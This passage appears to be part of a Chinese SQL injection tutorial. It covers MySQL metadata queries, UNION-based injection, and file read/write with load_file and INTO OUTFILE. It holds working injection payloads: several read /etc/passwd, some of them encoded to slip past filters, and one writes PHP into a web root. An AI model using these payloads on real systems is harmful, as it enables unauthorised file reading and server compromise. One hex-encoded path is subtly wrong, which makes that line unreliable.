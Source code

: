 ### 二、获取元数据
MySQL 5.0及其以上版本提供了INFORMATION_SCHEMA,INFORMATION_SCHEMA是信息数据库，它提供了访问数据库元数据的方式。
（1）查询用户数据库名称
```sql
select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1
``` 
语句的含义为：从INFORMATION_SCHEMA.SCHEMATA表中查询出第一个数据库名称。
INFORMATION_SCHEMA.SCHEMATA提供了关于数据库的信息。       

（2）查询当前数据库表
```sql
select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA=(select DATABASE()) limit 0,1
``` 
语句的含义为：从INFORMATION_SCHEMA.TABLES表中查询当前数据库表，并且只显示第一条数据，INFORMATION_SCHEMA.TABLES表给出了关于数据库中表的信息。

（3）查询指定表的所有字段
```sql
select COLUMNS_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='Student' LIMIT 0,1
``` 
语句的含义为：从INFORMATION_SCHEMA.COLUMNS表中查询TABLE_NAME为Student的字段名，并置只显示一条。INFORMATION_SCHEMA.COLUMNS表给出了表中的列信息。

### 三、UNION查询
MySQL与Oracle并不像SQL Server那样可以执行多语句。所以，在利用查询时，通常配合UNION关键字。     
 
SQL Server与MySQL、Oracle中的UNION关键字的使用基本相同，但也有少许差异。通过下面的语句来验证。         
   
分别在SQL Server、MySQL中执行以下SQL语句：         
```sql
select id,username,password from users union select 1,2,3
```  
Oracle数据库执行以下SQL语句：
```sql
select id,username,password from users union select 1,2,3 from dual
```  
SQL Server和Oracle：语句错误，数据类型不匹配，无法正常执行（列的数据类型在不确定的情况下，最好使用NULL关键字匹配）      
MySQL：语句正常执行             

在Oracle与SQL Server中，列的数据类型在不确定的情况下，最好使用NULL关键字匹配。


### 四、MySQL函数利用
#### （1）load_file（）函数读文件操作
文件必须为全路径名称（绝对路径），而且用户必须持有FILE权限，文件容量也必须小于max_allowed_packet字节。
```sql
union select 1,load_file('/etc/passwd'),3,4,5,6 #
union select 1,load_file('0x2F6563742F706173737764'),3,4,5,6 #
union select 1,load_file(char(47,101,99,116,47,112,97,115,115,119,100)),3,4,5,6 #
``` 
#### （2）into outfile写文件操作
文件必须为全路径名称（绝对路径），而且用户必须持有FILE权限。
```sql
select '<?php phpinfo();?>' into outfile 'c:\wwwroot\1.php'
select char(99,58,92,50,46,116,120,116) into outfile 'c:\wwwroot\1.php'
``` 
into dumpfile和into outfile的区别：dumpfile适用于二进制文件，它会将目标文件写入同一行内；而OUTFILE则更适用于文本文件。
